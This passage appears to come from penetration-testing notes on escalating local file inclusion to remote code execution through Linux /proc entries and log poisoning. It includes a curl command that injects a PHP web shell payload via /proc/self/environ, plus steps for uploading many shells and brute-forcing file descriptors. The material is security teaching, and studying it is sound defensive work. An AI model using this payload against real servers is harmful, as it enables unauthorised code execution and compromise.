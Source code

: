 ### Useful `/proc/[PID]` entries

- `/proc/[PID]/cmdline`
    Process invocation command with parameters.

    It potentially exposes
    paths,
    usernames and passwords.
- `/proc/[PID]/environ`
    Environment variables.

    It potentially exposes
    paths,
    usernames and passwords.
- `/proc/[PID]/cwd`
    Process' current working directory.
- `/proc/[PID]/fd/[#]`
    File descriptors.

    Contains one entry
    for each file
    which the process has open.

### LFI2RCE - /proc

#### /proc/self/environ

`/proc/self/environ` contains user inputs
that turn it
in a useful volatile storage.
Apache stores an environment variable
for the `HTTP_USER_AGENT` header
to be used by
the self-contained modules.[^ush-lfi2rce]

```sh
curl "http://{{< param "m.RDOMAIN" >}}/index.php?page=/proc/self/environ&c=id" -H "User-Agent" --data "<?php system($_GET['c']); ?>"
```

#### /proc/[PID]/fd/[FD] [^swissky-dt]

1. Upload A LOT of shells.
2. Include `http://{{< param "m.RDOMAIN" >}}/index.php?page=/proc/$PID/fd/$fd`.

    Bruteforce the process ID (`$PID`)
    and file descriptor id (`$FD`)

## LFI2RCE - Log Poisoning

A log file
is a file that contains a record of events from an application.
A log poisoning attack
consists of triggering one of these events
with executable code as part of the logged data,
and successively,
through LFI,
include and execute the code.


[^owasp-path-traversal]: “Path Traversal - OWASP.” OWASP, https://wiki.owasp.org/index.php/Path_Traversal.
[^wiki-file-inclusion]: Contributors to Wikimedia projects. “File Inclusion Vulnerability - Wikipedia.” Wikipedia, the Free Encyclopedia, Wikimedia Foundation, Inc., 24 Nov. 2006, https://en.wikipedia.org/wiki/File_inclusion_vulnerability.
[^swissky-dt]: swisskyrepo. “PayloadsAllTheThings / Directory Traversal.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal.
[^unc-share]: “CWE-40: Path Traversal: ‘\\UNC\share\name\’ (Windows UNC Share) (4.1).” CWE -  Common Weakness Enumeration, https://cwe.mitre.org/data/definitions/40.html.
[^data-scheme]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^apache-log]: “Log Files - Apache HTTP Server Version 2.4.” Welcome! - The Apache HTTP Server Project, https://httpd.apache.org/docs/2.4/logs.html.
[^php-wrappers]: “PHP: Supported Protocols and Wrappers - Manual.” PHP: Hypertext Preprocessor, https://www.php.net/manual/en/wrappers.php.
[^ietf-rfc2397]: “RFC 2397 - The ‘Data’ URL Scheme.” IETF Tools, https://tools.ietf.org/html/rfc2397.
[^kernel-proc]: “The /Proc Filesystem.” The Linux Kernel  Documentation, https://www.kernel.org/doc/html/latest/filesystems/proc.html.
[^route-lookup]: Bernat, Vincent. “IPv4 Route Lookup on Linux ⁕ Vincent Bernat.” MTU Ninja Vincent Bernat, https://vincent.bernat.ch/en/blog/2017-ipv4-route-lookup-linux.
[^linux-man-proc]: “Proc(5) - Linux Manual Page.” Michael Kerrisk - Man7.Org, https://man7.org/linux/man-pages/man5/proc.5.html.
[^ush-lfi2rce]: “LFI2RCE (Local File Inclusion to Remote Code Execution) Advanced Exploitation: /Proc Shortcuts.” Ush.It - a Beautiful Place, https://www.ush.it/2008/08/18/lfi2rce-local-file-inclusion-to-remote-code-execution-advanced-exploitation-proc-shortcuts/.